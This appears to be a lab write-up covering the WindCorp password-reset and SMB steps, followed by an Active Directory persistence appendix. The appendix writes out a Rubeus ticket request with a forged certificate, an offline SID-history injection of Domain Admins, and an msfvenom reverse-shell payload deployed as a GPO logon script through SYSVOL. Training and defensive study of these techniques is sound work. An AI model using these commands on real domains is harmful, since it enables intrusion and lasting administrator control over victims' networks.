An investigation of WindCorp’s account-recovery process, credential validation, SMB access and Spark 2.8.3. An Active Directory persistence appendix explores a separate training environment.
WindCorp: password recovery
The lab begins with network reachability to WindCorp. Start with service discovery and enumeration to identify the next access path.

The scan identifies an HTTP site on port 80 with a password-reset function.


The site lists employees and their profile images.
Opening Lily’s picture reveals the dog’s name in the image filename.

That publicly visible detail supplies the password-reset answer and permits an account password change.

Credential validation and SMB access
Verify that the reset credentials authenticate successfully.

Return to the service results and investigate SMB on port 445.
The account can enumerate several shares.

Inspect the Shared resource shown in the original output.

The accessible share contains the first flag.
Spark discovery: next investigation step
The scan also identifies an XMPP/Jabber service on port 5222, and the share references Spark 2.8.3. The notes introduce downloading the client and attempting authentication.

Appendix — separate AD persistence environment
This appendix uses the separate za.tryhackme.loc environment and THMDC to explore certificates, SID history, ACLs and Group Policy.

The listed certificate has export restrictions. The following screenshot records the memory-patching step used in the original exercise; its success depends on the key storage and permissions.

The next screenshot records exporting the certificate material.

The output includes PFX and DER files. The PFX can contain a private key; a DER certificate file is not itself evidence of an exported private key.

The lab focuses on za-THMDC-CA.pfx. The original tool uses mimikatz as the export password; this protects the PFX container, not the CA’s broader trust.
Transfer the exported lab file to the local machine.

The original ForgeCert example uses the exported CA material to issue a client-authentication certificate for the chosen lab identity. The screenshot records the historical implementation.
Parameters in the source example:
CaCertPath — path to the exported CA certificate and private-key container.
CaCertPassword — password protecting that PFX container.
Subject — the certificate subject or common name used in the example.
SubjectAltName — the user principal name (UPN) selected for the lab identity. Current certificate mapping and KDC validation requirements must not be inferred from this older result.
NewCertPath — output path for the generated certificate.
NewCertPassword — password protecting the output private-key container.

The source uses Rubeus to request a TGT with the generated certificate. The parameters shown are:
/user — the user identity selected for the certificate-authentication request.
/enctype — the requested ticket encryption type. Selecting AES does not, by itself, establish that an authentication event will evade detection.
/certificate — certificate file path.
/password — password protecting the certificate file.
/outfile — destination for the ticket.
/domain — fully qualified domain name.
/dc — domain controller receiving the request. Certificate authentication depends on the KDC’s configuration; running a CA service on that same host is not a universal requirement.

C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:C:\Users\Administrator\timosoini\fullAdmin.pfx /password:Password123 /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.88.101
The screenshot records a successful TGT request and saved output.

The next screenshots preserve a directory listing and the ticket-import operation.


Rubeus records a successful TGT request and Mimikatz reports a successful import. The supplied document places the directory listing before the import screenshot, so it does not establish that the listed access depended on the newly imported ticket.
A password change does not necessarily invalidate a certificate or remove compromise of its issuing CA key.
The recovery question is therefore broader than the password of the impersonated account.
An attacker-issued certificate may not appear in the CA’s issuance database. Recovery must account for compromised signing material and the trust placed in it.
Recovery may involve replacing compromised CA trust and reissuing dependent certificates. The plan depends on the CA hierarchy, exposure and operational dependencies.
This is a potentially extensive PKI recovery scenario, not proof that every certificate-persistence case always requires rebuilding the entire domain.
SID History
SID history supports migration by retaining an account’s earlier security identifiers so that existing resource permissions can still be evaluated. Adding an unauthorized privileged SID can abuse that same authorization mechanism.
An unauthorized SID can affect a newly created logon token without adding the account to the corresponding group’s membership list.
Check whether the low-privilege lab account already has SID history.

The source shows an empty value, then retrieves the Domain Admins SID for the demonstration.

The source’s offline database-editing method stops NTDS before modifying ntds.dit and restarts it afterward. This interrupts domain-controller service and is specific to the controlled lab method shown.
Stop-Service -Name ntds -forceAdd-ADDBSidHistory -SamAccountName 'grace.clarke' -SidHistory 'S-1-5-21-3885271727-2693558621-2658995185-512' -DatabasePath C:\Windows\NTDS\ntds.ditStart-Service -Name ntdsIn a new session on THMWRK1, query the account again to inspect the recorded SID history.

The validation shown here is the Domain Admins SID added to the account’s sIDHistory attribute.
A group-membership check alone can miss this change. Inspecting SID history, directory changes and resulting tokens is necessary to understand the authorization state.
Password resets and CA remediation do not, by themselves, remove an unauthorized SID history entry. Each persistence mechanism requires an explicit check.
ACL
The next exercise changes a permission template used for protected objects. SDProp can reapply the altered ACL even after a permission is removed from an individual protected object.
AdminSDHolder is an AD container/object whose security descriptor supplies permissions for protected accounts and groups. It is not a group that automatically restores membership.
By default, SDProp runs every 60 minutes on the PDC Emulator and compares protected-object permissions with AdminSDHolder. An unauthorized ACE on the template can therefore reappear on protected objects. This behavior is documented by Microsoft and can be audited.
The source uses a separate lab session, runas /netonly and MMC to manage the directory with the required credentials.
runas /netonly /user:Administrator cmd.exeIn MMC, add Active Directory Users and Computers and enable Advanced Features. Locate AdminSDHolder under the domain’s System container and open its Security properties.


The exercise grants the selected low-privilege account Full Control on the template.
In the Security dialog, add the lab user, resolve its name, select Full Control and apply the change.
The screenshot records the resulting permission entry.

After the default SDProp cycle, review a protected group’s permissions to check whether the template change propagated.
The example inspects the Domain Admins group.
The screenshot shows permission to control the group. That permission does not automatically make the account a member.

The source then uses the new permissions to change group membership.

The defensive implication is that fixing a protected object’s ACL alone can be temporary while an unauthorized AdminSDHolder ACE remains. The original broader Domain Users example describes a larger blast radius; it is not evidence of an additional completed step here.
GPO
The final persistence example uses Group Policy.
Group Policy centrally manages settings and scripts for scoped users and computers. Unauthorized changes can therefore distribute execution across the objects to which a GPO actually applies.
The lab links a user logon-script GPO to the Admins OU. Execution depends on the linked scope, security filtering and policy processing.
The original setup creates an executable, a listener and a batch file.
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.50.84.38 lport=4445 -f exe > am03_shell.exeThe source names the batch file am03_script.bat:
copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\am03_shell.exe C:\tmp\am03_shell.exe && timeout /t 20 && C:\tmp\am03_shell.exeFilename correction: the original copy destination contained <username>_shell.exe, but the created file, SYSVOL screenshot and execution path use am03_shell.exe. The destination above now matches those source values. The command copies the file, waits 20 seconds and runs it.
The source transfers the executable and batch file to SYSVOL with the following SCP commands.
scp am03_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/scp am03_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/In Group Policy Management, create the GPO and link it to the lab’s Admins OU.

Open the Group Policy Management Editor.
Expand User Configuration, Policies and Windows Settings.
Select Scripts (Logon/Logoff).
Open Logon properties.
Select the Scripts tab.
Choose Add and Browse.
Locate the batch file saved in the preceding step.
Select the batch file and apply the change. The logon script is scoped by the GPO’s effective link, filtering and processing conditions; it does not automatically apply to every administrator on every host.

The source then alters GPO permissions to demonstrate loss of ordinary management visibility.

Grant ENTERPRISE DOMAIN CONTROLLERS the displayed edit, delete and security-management permission.
The source removes the other listed management groups while initially retaining Authenticated Users.
The screenshot records that intermediate delegation state.

The source next removes the Creator Owner entry from the advanced permissions.

Policy processing requires the appropriate read and apply permissions for the relevant identities. Removing those permissions can prevent intended user-policy processing.
The source replaces Authenticated Users read access with Domain Computers. This illustrates a restrictive ACL change, not an irreversible security boundary.
Choose Add.
Resolve Domain Computers in the object picker.
Grant the displayed Read permission.
Remove the Authenticated Users entry as recorded in the source.
The current management session then reports that it can no longer read the policy.


Loss of access in this session does not prove that recovery is impossible. Authorized ownership, permission repair and recovery procedures may restore control; a full network reset is not the only universal option.
Mitigations
Recovery must match the scope of persistence. Broad compromise may require extensive rebuilding, but the source’s individual lab techniques do not establish that outcome in every environment.
Investigate anomalous logons and violations of the intended administrative tiering model.
Review unexpected credential changes, permissive ACL changes and newly created or modified GPOs. Compare changes with authorized administrative activity.
Protect privileged identities and directory services, then validate each affected persistence mechanism during recovery.
Key takeaways
- Image filenames can expose answers used in account-recovery workflows.
- Credential validation and share enumeration connect an account-recovery finding to accessible resources.
- Account recovery, application discovery and Active Directory persistence each provide useful investigation perspectives.